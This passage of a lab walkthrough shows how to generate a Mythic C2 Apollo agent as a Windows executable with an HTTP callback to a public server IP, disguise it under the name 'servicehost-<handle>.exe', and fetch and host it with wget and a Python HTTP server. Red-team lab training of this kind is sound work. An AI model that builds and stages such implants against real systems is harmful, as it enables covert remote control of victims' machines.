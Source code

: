    - Go to Payloads → Actions → Generate New Payload
   - Target: Windows
   - Output: Windows executable (PE)
   - Agent: Apollo (demo)
   - Choose commands you want embedded (demo selected all for the lab)
   - Add C2 profile: `http` (set to HTTP in demo)
   - Callback host: public IP of Mythic server (demo used `155.138.158.156`)
   - Callback interval: `10` seconds, callback port `80`
   - Name payload (demo: `servicehost-<handle>.exe`)
   - Create payload → Download the generated executable link

![Mythic Payload](../images/21-mythic-payload.png)

3. On Mythic server, fetch payload and host with a simple HTTP server:

```bash
# Example: wget the payload URL (copied from Mythic GUI)
wget 'https://<mythic>/payloads/....' --no-check-certificate -O servicehost-stepnro.exe
# Move/rename as needed
mkdir -p ~/www/one
mv servicehost-stepnro.exe ~/www/one/

# Host with Python's simple HTTP server on port 9999
cd ~/www/one
python3 -m http.server 9999
```
